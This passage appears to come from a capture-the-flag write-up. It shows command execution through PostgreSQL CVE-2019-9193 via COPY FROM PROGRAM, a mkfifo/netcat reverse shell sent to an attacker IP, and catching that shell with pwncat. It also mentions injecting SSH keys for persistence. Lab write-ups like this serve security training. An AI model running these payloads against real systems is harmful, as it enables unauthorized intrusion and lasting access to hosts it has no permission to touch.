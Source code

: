 ```bash
    ]
}
```

### Command Execution through PostgreSQL

Since I couldn't find any useful information in the database, I decided to explore the [CVE-2019–9193](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#cve-20199193) vulnerability, which enables command execution through PostgreSQL, particularly since I have the capability to execute raw SQL queries.

```bash
> python raw_sql_exec.py "DROP TABLE IF EXISTS cmd_exec;"
Exception raised: list index out of range
> python raw_sql_exec.py "CREATE TABLE cmd_exec(cmd_output text);"
Exception raised: list index out of range
> python raw_sql_exec.py "COPY cmd_exec FROM PROGRAM 'id';"
Exception raised: list index out of range
> python raw_sql_exec.py "SELECT * FROM cmd_exec;"
Executed Query: SELECT * FROM cmd_exec;
{
    "values": [
        [
            "uid=114(postgres) gid=120(postgres) groups=120(postgres),119(ssl-cert)"
        ]
    ]
}
```

#### Shell as postgres

Got a shell as the user `postgres` using the `mkfifo` reverse shell payload.

```bash
❯ python raw_sql_exec.py "COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.16 9005 >/tmp/f';"
Exception raised: Expecting value: line 1 column 1 (char 0)
```

The connection resets after a few minutes due to a timeout in the `rawSQL` request. Since the user `postgres` has a login shell, I injected SSH keys to establish a persistent session.

```bash
(local) pwncat$ connect -lp 9005
[11:37:46] received connection from 10.129.229.15:35694                                                  bind.py:84
[11:37:48] 0.0.0.0:9005: upgrading from /usr/bin/dash to /usr/bin/bash                               manager.py:957
[11:37:49] 10.129.229.15:35694: loaded known host from db                                            manager.py:957
(local) pwncat$
(remote) postgres@jupiter:/var/lib/postgresql/14/main$ id
uid=114(postgres) gid=120(postgres) groups=120(postgres),119(ssl-cert)
```
